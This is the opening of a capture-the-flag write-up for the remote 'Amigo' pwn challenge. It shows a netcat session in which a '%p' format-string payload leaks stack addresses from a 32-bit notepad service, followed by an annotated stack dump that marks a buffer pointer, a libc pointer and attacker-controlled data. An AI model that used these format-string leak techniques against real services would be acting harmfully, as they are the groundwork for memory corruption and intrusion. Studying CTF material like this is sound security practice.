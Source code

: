 # Amigo

This pwn was quite challenging and no one solved it on site. I completed it after the CTF.
The challenge was without a binary, you only get a host and port:
```
nc amigo.hackable.software 1337

[+] Secure Notepad v0.7:
[+] 1. Write note
[+] 2. Display note
[+] 3. Exit
:> 1
Type in your note (max len: 64 characters): %p%p%p%p%p%p%p
[+] Note saved
[+] Secure Notepad v0.7:
[+] 1. Write note
[+] 2. Display note
[+] 3. Exit
:> 2
[+] Your note:
====================
0xf0x565ea4ad0x565ea4bd0x565ea4c50xffe8f4380x565ea5b70xffe8f43c

====================

[+] Secure Notepad v0.7:
[+] 1. Write note
[+] 2. Display note
[+] 3. Exit
:> 3
[+] Bye
``` 

So we have a 32bit binary with a format-string bug, the first thing I did was to dump the stack. 
```
['0x5',
 '0x5660045d',
 '0x5660046d',
 '0x56600475',
 '0x56600567',
 '0xffd9ba48L',
 '0xffd9ba4cL', => ptr to my buffer
 '0x56603040',
 '0x56603040',
 '0xf7796cc0L', => libc ptr
 '0x0',
 '0x1',
 '0x24333125', => my controlled data '$31%p'
 '0xa70',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
```